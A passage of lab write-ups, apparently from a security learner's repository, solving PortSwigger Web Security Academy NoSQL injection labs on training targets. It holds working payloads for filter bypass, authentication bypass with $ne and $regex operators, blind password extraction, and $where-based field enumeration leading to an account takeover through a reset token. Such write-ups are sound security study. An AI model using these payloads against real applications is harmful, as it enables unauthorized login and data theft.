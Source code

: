 ## Detecting NoSQL injection
[Detecting NoSQL injection](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-detection)

Write-up:
1. Website as a filtering feature, which accesses the following url:
   https://0aee005103709b8ae2a908f1003f00c8.web-security-academy.net/filter?category=Accessories

2. By inserting an url encoded `'||'1'=='1`, we get the following url and respective MongoDB query, which solve the lab:
   https://0aee005103709b8ae2a908f1003f00c8.web-security-academy.net/filter?category=Accessories%27%7c%7c%27%31%27%3d%3d%27%31
   `this.category == 'Accessories'||'1'=='1'`

## Exploiting NoSQL operator injection to bypass authentication
[NoSQL injection to bypass authentication](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication)

Write-up:
1. We are told to login as `administrator` user, and we are given wiener:peter as valid credentials
   
2. If we use the following payloads, we get logged in as the valid user:
	`{"username":"wiener","password":{"$ne":""}}`
	`{"username":{"$ne":""},"password":"peter"}`

3.  The following payload logs us in as admin - as we don't know admin username:
	`{"username":{"$regex":"admin.*"},"password":{"$ne":""}}`
	Response:
	Location: /my-account?id=admink0gqh00s

## Exploiting syntax injection to extract data
[NoSQL injection to extract data](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data)

Files:
brute.py

Write-up:
1. When intercepting the correct login request, we find a GET /user/lookup?user=wiener.
   If we attempt to lookup user `administrator`, we see that it also exists.

2. Attempting to send user `administrator"` just returns non-existent user, but sending `administrator'` returns an error, which means we might be able to inject syntax here.
   
3. Our goal is to find the password, so we send:
   `administrator'%26%261=='1` - %26 being URL-encoded "&"
   This allows us to log in correctly. 

4. Now we brute-force the password:
   `administrator'%26%26password[0]=='a` - returns error
   `administrator'%26%26user.password[0]=='a` - returns error
   `administrator'%26%26this.password[0]=='a` - returns admin user, meaning that `password[0]=a` - note that equaling to "b" says non-existent user.

5. After brute-forcing with brute.py, we get password: ajjtacdz 

## Exploiting operator injection to extract unknown fields
[NoSQL injection to extract unknown fields](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields)

Files:
brute-operator.py
brute-operator-p2.py

Write-up:
1. We are told to log in as `carlos`, so we intercept a request with user `carlos`.
2. Sending `{"username":"carlos","password":{"$ne":"invalid"}}` returns "Account Locked", which means that we can't access the account, but the operator was successful.
3. Sending `{"username":"carlos","password":{"$ne":"invalid"}, "$where": "0"}` returns "invalid username or password", but sending `{"username":"carlos","password":{"$ne":"invalid"}, "$where": "1"}` returns the same "Account Locked" as before, which means the $where operator is being evaluated.
4. Using `"$where": "Object.keys(this)[0].match('^.{0}.*')"` (0, 1, 2, 3, 4, etc.), we see there are 5 field names (0-4).
5. Using brute-operator.py, we can iterate through those indexes to brute-force their field names. We get:
   Discovered Fields: {0: '_id', 1: 'username', 2: 'password', 3: 'email', 4: 'unlockToken'}
6. Now that we know the field name, using brute-operator-p2.py we can find out "unlockToken". We get:
   Token: 99dac4b78c150b16
7. Going to /forgot-password, we insert username carlos and add `?unlockToken=99dac4b78c150b16`to url. This gets us to a password change screen, where we can change the password and login as carlos.